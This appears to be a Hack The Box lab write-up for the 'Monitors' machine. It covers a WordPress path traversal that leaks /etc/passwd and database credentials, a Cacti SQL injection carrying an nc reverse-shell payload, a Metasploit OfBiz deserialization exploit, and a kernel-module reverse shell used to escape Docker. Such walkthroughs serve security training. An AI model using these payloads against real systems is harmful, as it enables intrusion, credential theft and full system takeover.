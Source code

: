 ```yaml
---
title:  "Monitors"
search: true
categories: 
  - HTB
---
```


# User

The first thing is to use nmap for scan ports :

```
nmap -sSCV -v -A -p- -Pn 10.10.10.238

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-24 23:41 CDT
Nmap scan report for 10.10.10.238
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
|_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.76 seconds


```

As always add `monitors.htb` to `/etc/hosts` and we get the following webpage.

![]({{ site.url }}{{ site.baseurl }}/assets/images/monitor/1.png)

It is powered by wordpress so just try `wpscan` out

```
wpscan --url http://monitors.htb/ -e ap,cb,dbe

....

[+] wp-with-spritz
 | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-08-20T20:15:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt

...

```

It seems that there is a vulnerability - <https://www.exploit-db.com/exploits/44544> :

```
curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd 


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
Debian-snmp:x:112:115::/var/lib/snmp:/bin/false
mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false


```


Try to get wordpress config under `/var/www/wordpress/wp-config.php` :

```
curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//var/www/wordpress/wp-config.php

...

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );


...

```

Unfortunately the password does not work, try to gather some extra information:

![]({{ site.url }}{{ site.baseurl }}/assets/images/monitor/2.png)


a new vhost appeared `cacti.monitors.htb`! Add it to the `hosts` file and visit the website.

Use the wordpress credentials for login and we are in. The framework is version 1.2.12 --> <https://www.exploit-db.com/exploits/49810>. 
I had to do it manually via burp :

Step  1:

```
/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth%3bupdate+settings+set+value%3d'rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.54+443+>/tmp/f%3b'+where+name%3d'path_php_binary'%3b--+-
```

Step 2:
```
/cacti/host.php?action=reindex
```

and I obtained a reverse shell as `www-data`


Enumerating the system I found an interesting service called `cacti-backup.service` which points at `/home/marcus/.backup/backup.sh`. Just reading the content in order to obtain marcus ssh password!

`VerticalEdge2020`

# Root

Running enumeration on the host it is possible to see a new port running locally, `8443`.
So we do pivoting through ssh using `ssh -L 8443:localhost:8443 marcus@monitors.htb`

![]({{ site.url }}{{ site.baseurl }}/assets/images/monitor/3.png)

As we see the server runs tomcat version 9.0.31. After some research, I discovered that Tomcat is now part of Apache OfBiz, so I checked some vulnerabilities for also that framework and found `CVE-2020-9496`.



`use exploit/linux/http/apache_ofbiz_deserialization
set LHOST 10.10.x.x
set RHOSTS 127.0.0.1
set payload linux/x64/shell/reverse_tcp
set forceexploit true
run
`

and we got shell as root into the docker container (there is `.dockernev` ) . So now we need to evade the docker somehow.
Checking the capabilities with linpeas we can notice that we have  `CAP_SYS_MODULE` which is really interesting. I followed different articles ( <https://xcellerator.github.io/posts/docker_escape/> , <https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd>) which mainly prove that, due to the fact that the kernel for the container is the same as the host, we can evade the container installing a module which interacts directly with the kernel.

So I just created two files, `Makefile` and `reverse.c` :

```
Makefile

obj-m +=reverse.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean


```


```
reverse.c

#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.1/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);

```



After having uploaded them onto the docker container, using `curl -o`,  compile them through `make all` command (if you encounter compilation problems and errors just run `export PATH=$PATH/usr/lib/gcc/x86_64-linux-gnu/8/`) and then open a netcat listener on the host as marcus

`nc -lnvp 4444`

At last run `insmod reverse.ko`. And we obtain a reverse shell back as root. Enjoy!